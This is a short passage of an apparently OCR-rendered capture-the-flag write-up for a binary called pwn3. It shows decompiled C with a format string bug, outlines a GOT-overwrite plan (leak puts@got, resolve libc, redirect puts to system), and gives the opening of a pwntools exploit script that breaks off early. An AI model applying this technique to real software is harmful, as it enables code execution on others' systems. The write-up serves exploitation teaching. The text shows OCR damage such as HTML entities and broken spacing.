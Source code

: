 ```C
  if ( !strncmp(&s1, "flag", 4u) )

    puts("too young, too simple");

  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )

  {

    if ( !strcmp(i, &s1) )

    {

strcpy (&amp; dest, i + 0x28);
return printf (&amp; dest);
    }

  }

return printf (&amp; dest);
}

```



#### Exploiting ideas


Since there is a format string vulnerability, we can determine the following ideas


- Bypass password
- Determine formatting string parameter offset
- Use put@got to get the put function address, and then get the corresponding version of libc.so, and then get the corresponding system function address.
- Modify the contents of puts@got to the address of system.
- When the program executes the puts function again, it actually executes the system function.


#### Vulnerability Program


as follows


```python

from pwn import *

from LibcSearcher import LibcSearcher

##context.log_level = 'debug'

pwn3 = ELF (&#39;./pwn3&#39;)
if args['REMOTE']:

    sh = remote('111', 111)

else:

    sh = process('./pwn3')





def get(name):

```